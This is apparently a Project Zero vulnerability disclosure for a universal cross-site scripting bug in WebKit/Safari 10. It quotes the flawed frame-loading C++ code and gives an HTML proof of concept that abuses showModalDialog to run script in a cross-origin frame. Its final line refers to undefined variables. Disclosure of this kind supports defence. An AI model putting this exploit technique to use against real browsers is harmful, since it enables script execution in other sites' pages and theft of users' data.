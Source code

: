 # UXSS via a synchronous page load

### Reported by <mailto:lokihardt@google.com>, Feb 9 2017

Here's a snippet of the method SubframeLoader::requestFrame which is invoked when the |src| of an iframe object is changed.

```cpp
bool SubframeLoader::requestFrame(HTMLFrameOwnerElement& ownerElement, const String& urlString, const AtomicString& frameName, LockHistory lockHistory, LockBackForwardList lockBackForwardList)
{
    // Support for <frame src="javascript:string">
    URL scriptURL;
    URL url;
    if (protocolIsJavaScript(urlString)) {
        scriptURL = completeURL(urlString); // completeURL() encodes the URL.
        url = blankURL();
    } else
        url = completeURL(urlString);

    if (shouldConvertInvalidURLsToBlank() && !url.isValid())
        url = blankURL();

    Frame* frame = loadOrRedirectSubframe(ownerElement, url, frameName, lockHistory, lockBackForwardList); <<------- in here, the synchronous page load is made.
    if (!frame)
        return false;

    if (!scriptURL.isEmpty())
        frame->script().executeIfJavaScriptURL(scriptURL); <<----- boooom

    return true;
}
```

A SOP violation check is made before the above method is called. But the frame's document can be changed before `frame->script().executeIfJavaScriptURL` called. This can happen by calling `showModalDialog` that enters a message loop that may start pending page loads.

Tested on Safari 10.0.3(12602.4.8).

PoC:

```html
<body>
  <p>click anywhere</p>
  <script>
    window.onfocus = () => {
      window.onclick = null;

      f = document.createElement('iframe');
      f.src = 'javascript:alert(location)';
      f.onload = () => {
        f.onload = null;

        let a = f.contentDocument.createElement('a');
        a.href = 'https://abc.xyz/';
        a.click();

        window.showModalDialog(URL.createObjectURL(new Blob([`
<script>
let it = setInterval(() => {
    try {
        opener[0].document.x;
    } catch (e) {
        clearInterval(it);

        window.close();
    }
}, 100);
</scrip` + 't>'], {
          type: 'text/html'
        })));
      };

      document.body.appendChild(f);
    };

    cached.src = kUrl;
  </script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1121
